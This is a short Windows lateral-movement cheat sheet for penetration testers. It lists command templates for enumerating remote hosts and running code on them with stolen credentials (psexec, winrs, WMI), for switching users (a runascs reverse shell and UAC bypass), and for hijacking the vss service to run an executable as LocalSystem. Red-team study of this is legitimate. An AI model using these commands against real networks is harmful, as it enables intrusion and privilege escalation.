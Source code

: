  
Windows
  
[Windows Terminal Cheat Sheet](https://docs.google.com/document/d/1CGgADAOZQuMXAyzXVeXRNhQ_PPBYliMXCy-4RNE0UMw/)
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
  
# Lateral Movement
  
## Remote Enumeration
net session \\[host]
reg query \\[host]\[key] ...
  
net view \\[host]
dir \\[host]\[share]
net use * \\[host]\[share] /user:[domain]\[username] [password]
  
tasklist /s [host] ...
  
## Movement
  
psexec \\[host] -u [username] -p [password] -i cmd
winrs -u:[username] -p:[password] -r:[host] cmd
  
### Switch Users
runas /user:[domain]\[username] cmd
- /netonly to keep same user access on local machine (only login for network connections)
    
- /savecred to get creds from or save creds to Windows Credential Manager
    
runascs [username] [password] cmd
- -d [domain]
    
- -r [host]:[port] ⇒ reverse shell
    
- -b ⇒ bypass UAC
    
  
### Create New Process (WMI)
wmic /node:[ip] process call create [executable]
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -CimSession (New-CimSession -ComputerName "[ip]") -Arguments @{CommandLine="[executable]"}
  
### Create New Service
sc \\[host] create [service] binPath= "[executable]" start= auto displayname= "[name]"
sc \\[host] description [service] "[description]"
sc \\[host] [start/stop/delete] [service]
  
### Modify Existing Service
sc \\[host] qc vss → ✓ service runs as LocalSystem
sc \\[host] query vss → ✓ service is currently not running
sc \\[host] config vss binpath= "[executable]"
sc \\[host] [start/stop] vss
  